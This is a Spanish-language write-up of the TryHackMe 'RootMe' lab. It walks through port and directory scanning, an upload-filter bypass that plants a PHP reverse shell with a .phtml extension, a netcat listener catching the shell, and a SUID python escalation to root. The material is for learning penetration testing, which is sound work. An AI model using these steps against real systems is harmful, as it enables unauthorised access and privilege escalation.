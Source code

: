 # Resolución de la Máquina: RootMe

# Resolución: RootMe

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 14/06/2025
- **Sistema Operativo:** Linux
- **Categoría:** Escalada de privilegios


## Descripción

"Root Me" es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es especialmente útil para:

> Practicar enumeración web y de servicios básicos

> Comprender cómo aprovechar inyecciones simples o ejecución remota de comandos

> Aplicar técnicas básicas de post-explotación

> Identificar binarios con permisos indebidos en sistemas Linux


## Enumeración

### Escaneo con Nmap

```bash
sudo nmap -sV -p- -T5 -sS -Pn 10.10.71.90

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-14 19:09 CEST
Warning: 10.10.71.90 giving up on port because retransmission cap hit (2).
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.46% done; ETC: 19:10 (0:00:30 remaining)
Nmap scan report for 10.10.71.90
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneo con Gobuster

```
gobuster dir -u http://10.10.14.154 -w /usr/share/wordlists/wfuzz/general/common.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.14.154
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.14.154/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.14.154/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.14.154/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.14.154/uploads/]
Progress: 3804 / 3808 (99.89%)
===============================================================
Finished
===============================================================
```
## Explotación

Accederemos al directorio /panel/, allí veremos que podemos subir archivos, por lo que trataremos de cargar un reverse shell en PHP que generaremos a través de https://www.revshells.com/
Nos encontraremos con que no podemos subir archivos con extensión PHP, por lo tanto le definiremos la extensión de PHTML.

Una vez cargado lo ejecutaremos accediendo al directorio /uploads/, habiendonos puesto en escucha previamente por netcat.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.219] from (UNKNOWN) [10.10.14.154] 51008
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:56:50 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (914): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

Para favorecer al tratamiento de la bash lanzaremos los siguientes comandos.

`python3 -c 'import pty; pty.spawn("/bin/bash")'`	Nos genera una shell interactiva
`export TERM=xterm`	Informa a los programas del tipo de terminal

Una vez establecida la conexión mediante la reverse shell ejecutaremos el siguiente comando para buscar la flag que nos solicitan

```
www-data@rootme:/$ find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```
## Escalada de privilegios

Para ello buscaremos aquellos binarios que tengan el SUID activado, estos archivos se ejecutan con los permisos del propietario (normalmente root), sin importar quién los ejecute.

```

```
Si buscamos en GTFOBins veremos que el binario de python es vulnerable a SUID

```
sudo install -m =xs $(which python) .
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

